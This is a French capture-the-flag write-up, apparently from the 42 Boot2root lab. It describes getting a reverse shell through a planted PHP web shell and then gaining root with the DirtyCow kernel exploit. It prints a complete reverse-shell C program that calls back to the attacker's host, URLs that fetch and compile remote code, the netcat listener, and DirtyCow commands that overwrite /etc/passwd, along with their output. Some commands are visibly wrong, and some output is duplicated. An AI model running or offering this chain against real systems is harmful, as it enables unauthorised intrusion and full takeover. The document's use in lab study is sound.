 # writeup 2

## Reverse shell

On va utiliser notre exploit php pour creer un `reverse shell` et s'introduire dans le server.
Pour cela il va falloir recuperer et compiler un ficher c:

https://192.168.56.102/forum/templates_c/myfile.php?cmd=curl%20https://raw.githubusercontent.com/Gropopus/Boot2root/master/reverse_shell.c%20--output%20reverseshell.c

On curl le fichier c de notre github, pour le mettre dans le dossier /forum/templates_c/, (%20 signifie ' ' pour le navigateur).
```
$ curl https://192.168.56.102/forum/templates_c/myfile.php?cmd=gcc%20reverseshell.c%--output%20reverseshell.c
```
On compile le fichier c pour avoir notre programme.

```
int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("192.168.122.1"); --->adresse de notre machine
    sa.sin_port = htons(5432); ---> port que l'on devra ecouter.

    s = socket(AF_INET, SOCK_STREAM, 0); ->on creer la socket

    while ((connect(s, (struct sockaddr *)&sa, sizeof(sa))) != 0) ---> le programme va tourner jusqu'a etre connecter a l'addresse de notre marchine hote
        ;
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0); ---> on lance notre shell
    return 0;
}
```

Avant de lancer notre a.out, il faut ecouter sur le port 5432 avec notre machine hote.
On ouvre donc un terminal et on lance netcat: (-l pour listen, -v pour verbose)
```
$ nc -vl 5432
```
On peut maintenant lancer notre a.out sur la page de notre porte dérobée:

https://192.168.56.102/forum/templates_c/myfile.php?cmd=./a.out

et comme par magie, sur notre terminal apparait:
```
Listening on 0.0.0.0 5432
Connection received on e1r13p5.clusters.42paris.fr 55310
$ whoami
www-data
```
Nous avons donc un reverse shell mais nous ne sommes pas encore root.
Pour cela il va falloir faire un autre programme.

## Dirty cow
En lancant la commande uname -r, on peut decouvrir la version du kernel de l'iso:
```
$ uname -r
3.2.0-91-generic-pae
```

Apres quelques recherches sur google, on a fini par trouver un exploit valide pour cette version sur `dirtycow`:

https://github.com/firefart/dirtycow/blob/master/dirty.c

Apres compilation, ce programme creer un user avec les privileges root et defini un mot de passe pour celui-ci.
```
This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
```

On va donc utiliser notre shell pour curl ce fichier c qu'on a legerement modifié fin que le nouveau user s'appelle root.\
Pour cela, il faut se rapprocher de la racine, apres plusieurs tentatives dans differents dossiers, il s'avere qu'il est possible de curl le fichier dans le repo /tmp
```
$ cd /tmp
$ curl https://raw.githubusercontent.com/Gropopus/Boot2root/master/dirty.c --outpput dirty.c
$ gcc -pthread dirty.c -o dirty -lcrypt
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
Mais surprise ca ne compile pas. On verifie donc les variables de l'env:
```
$ env
...
PWD=/tmp
...
```
Double suprise, il n'y a pas de PATH donc aucun binaire utile au programme n'est trouvé
On ajoute donc la variable PATH et sa valeur a l'env avec un export (les paths sont trouver sur internet -> https://blog.gibbons.digital/hacking/2021/05/04/stuff.html )

```
$ export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
Please enter the new password: youpi
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'p'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
/etc/passwd successfully backed up to /tmp/passwd.bak
iciComplete line:
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash

mmap: b7fd9000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'youpi'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ cat /etc/passwd
root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash
```
On a choisi le password : `youpi`\
Malheureusement, si on lance `su root`, on a le message d'erreur suivant:

```
$ su root
su: must be run from a terminal
```
On se connecte donc avec le compte de laurie en ssh:\
*rappel password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4*

```
$ ssh laurie@192.168.56.102
$ su root
$ whoami
root
```
Voila nous sommes root !!!
